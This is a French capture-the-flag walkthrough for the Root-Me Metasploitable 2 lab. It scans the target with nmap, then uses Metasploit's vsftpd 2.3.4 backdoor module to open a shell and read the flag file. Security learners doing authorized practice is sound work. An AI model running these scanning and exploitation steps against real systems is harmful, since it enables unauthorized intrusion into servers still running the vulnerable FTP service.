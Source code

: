 
# CTF - Metasploitable 2
https://www.root-me.org/fr/Capture-The-Flag/CTF-all-the-day/Metasploitable-2-13?lang=fr
```
L'objectif est de trouver un flag de validation est stocké dans le fichier /passwd
```
<br>
Pour commencer, ouvrez votre os linux pour ma part j'utilise kali

Sur la page du CTF vous pourrez retrouvez votre environnement virtuel à attaquer sous la forme de ctfXX.root-me.org
Lancez ensuite un terminal et éxécutez
```
host ctfXX.root-me.org
```
Vous obtiendrez une réponse comme ceci<br>
![IMAGE](https://github.com/sakusql/Root-Me-Solutions/blob/main/CTF/Metasploitable%202/Screenshot%202024-10-13%20171558.png)

Munissez vous ensuite de Zenmap et faites un scan de votre environnement ctfXX comme ceci <br>
![IMAGE](https://github.com/sakusql/Root-Me-Solutions/blob/main/CTF/Metasploitable%202/Screenshot%202024-10-13%20172057.png)

ou sinon directement depuis nmap avec
```
nmap -T4 -A -v ctfXX.root-me.org
```
<br><br>
Dans la catégorie des Ports, on peut constater un port 21 ouvert avec comme version "vsftpd"
![IMAGE](https://github.com/sakusql/Root-Me-Solutions/blob/main/CTF/Metasploitable%202/Screenshot%202024-10-13%20173809.png)
<br>
Lancez ensuite metasploit et faites une recherche avec 
```
search vsftpd
```
Vous retrouverez "exploit/unix/ftp/vsftpd_234_backdoor"
![IMAGE](https://github.com/sakusql/Root-Me-Solutions/blob/main/CTF/Metasploitable%202/Screenshot%202024-10-13%20173934.png)<br><br>

Dans votre terminal entrez 
```
exploit/unix/ftp/vsftpd_234_backdoor
```
Puis confirmez par Y
<br>
Faites ensuite un check des options avec
```
show options
```

Comme vous pouvez le constater, les RHOSTS n'ont aucun host
![image](https://github.com/sakusql/Root-Me-Solutions/blob/main/CTF/Metasploitable%202/Untitled.png)
Rentrez le vous même avec 
```
set rhost *l'adresse du host obtenue avec la commande "host ctfXX"
```

Vous pourrez ensuite effectuer un 
```
exploit
```
Ensuite un 
```
shell
```
Pour finir un 
```
ls
```
![image](https://github.com/sakusql/Root-Me-Solutions/blob/main/CTF/Metasploitable%202/Screenshot%202024-10-13%20174242.png)
<br>
Et afin de vous rendre dans le répertoire où ce trouve le flag, soit passwd, faites
```
nano passwd
```

Bon courage !
